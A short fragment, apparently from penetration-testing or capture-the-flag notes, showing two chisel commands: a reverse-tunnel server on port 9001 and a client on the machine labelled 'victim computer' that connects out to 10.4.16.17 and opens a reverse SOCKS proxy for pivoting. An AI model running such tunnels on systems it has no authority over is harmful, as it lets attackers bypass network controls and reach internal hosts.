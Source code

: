 ```bash
./chisel server -p 9001 --reverse &
```
victim computer
```bash
./chisel client 10.4.16.17:9001 R:socks &
```
